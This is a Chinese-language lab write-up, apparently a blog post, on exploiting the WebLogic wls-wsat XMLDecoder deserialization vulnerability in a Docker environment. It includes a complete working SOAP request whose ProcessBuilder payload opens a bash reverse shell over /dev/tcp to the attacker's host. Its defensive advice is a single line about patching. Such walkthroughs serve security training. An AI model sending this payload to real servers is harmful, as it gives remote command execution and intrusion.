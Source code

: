# Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞

- 序列化：就是把抽象的对象编程可存储、可传输的字节流(对象->字符串)。反序列化：就是把字节流转换成对象的过程(字符串->对象)。
- 反序列化漏洞：就是不管是PHP还是JAVA等编程语言，都有两个特殊的函数：`构造函数`和`析构函数`。这两个函数分别会在对象创建/销毁时自动调用。所以如果该函数中如果存在危险函数，则就有可能造成反序列化漏洞。
- Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。
- 影响版本： `10.3.6.0.0`、 `12.1.3.0.0`、  ` 12.2.1.2.0` 、`12.2.1.1.0` 
### 在docker中启动实验环境
![image](https://github.com/hecker-zz/blog/assets/153266742/a5d88591-a119-40e5-8924-d91aaaae4206)

### 访问7001端口，如显示404则环境搭建成功
![image](https://github.com/hecker-zz/blog/assets/153266742/fec6e30f-934a-49d2-82b1-73ec21b5299f)

### 访问7001:/wls-wsat/CoordinatorPortType 这个目录，如出现下图则可能存在漏洞
![image](https://github.com/hecker-zz/blog/assets/153266742/13187049-f389-4ffa-a024-1c350539c957)
### 直接去bp抓包Ctrl+R发送到重放模块
![image](https://github.com/hecker-zz/blog/assets/153266742/1d0516c6-8849-4914-99c0-6dd5f31d585f)

### 反弹一个shell
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: IP:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 640

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/IP/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
### 修改完成后打开主机进行监听，然后反弹shell
### 主机监听
![image](https://github.com/hecker-zz/blog/assets/153266742/3dccb61a-6bb4-4cec-8146-a495073f71b3)

### 反弹后成功拿到shell
![image](https://github.com/hecker-zz/blog/assets/153266742/a70478bd-a0b3-4088-85b1-303d333fdcff)

### 漏洞防御
- 一般就是打补丁